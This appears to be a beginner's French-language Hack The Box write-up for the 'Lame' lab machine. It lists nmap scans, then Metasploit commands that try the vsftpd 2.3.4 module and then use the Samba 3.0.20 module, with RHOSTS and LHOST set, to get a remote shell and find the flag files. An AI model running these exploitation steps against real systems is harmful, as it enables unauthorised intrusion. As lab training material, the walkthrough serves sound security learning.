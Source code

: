 # Lame - Easy

### Objectif : 
Se connecter à la machine et trouver les flags de user.txt et root.txt

### Information :

Addresse IP : **10.10.10.3**

### Process : 

##### Récolte d'information : 

###### Scan du réseau : 

```bash
# premier scan
nmap 10.10.10.3 -sV -Pn
# deuxième scan
nmap 10.10.10.3 -sV -sC -Pn -p-

```
*
    * sV : Détecte les versions des services
    * -Pn : Ignore la découverte d'hôtes
    * -p- : Scan de tous les ports
    * -sC : Scripts de vulnérabilité et de 

###### résultat du premier scan
!["screenshot Lame"](Machine-Lame-01.png)

###### résultats du deuxième scan
!["screenshot"](../../Ressources/IMG/HTB/Machines/Lame/Machine-Lame-02.png)
!["screenshot Lame"](Machine-Lame-03.png)

###### Détection des vulnérabilités :

Nous utiliserons metasploit pour détecter et exploiter les vulnérabilités

**Accès à metasploit**
```bash
msfconsole
```
###### Recherche de la vulnérabilité
```bash
# dans la console de metasploit
 search vsftpd 2.3.4
 use 0 
 setg RHOSTS 10.10.10.3
 exploit
```

###### Exploitation de la vulnérabilité

##### vulnérabilité 1 : vsftpd 2.3.4
!["screenshot Lame"](Machine-Lame-6.png)

Étant donné que le premier ne marche pas, on va essayer de chercher d'autres vulnérabilités : essayons l'os découvert grâce au scan nmap : **samba 3.0.20** 
##### vulnérabilité 2 : samba 3.0.20
```bash
# dans la console de metasploit
 search samba 3.0.20
 use 0 
 setg RHOSTS 10.10.10.3
 setg LHOST <Mon addresse IP>
 exploit
```
!["screenshot Lame"](Machine-Lame-04.png)


!["screenshot Lame"](Machine-Lame-05.png)
Nous avons donc accès à la console de la cible
###### Recherche des fichier avec 
```bash
# cette commande nous donne les répertoires dans lesquelles se trouves les fichiers qu'on recherche
find / -name "nom_du_fichier" 2>/dev/null
```

!["screenshot Lame"](Machine-Lame-07.png)

### Ce que j'ai Appris :
* Ceci est ma première Machine HackTheBox
> chercher un ficher dans tous les répertoire tout en évitant les nombreuses affichages d'échec :
  find / -name "nom_du_fichier" 2>/dev/null 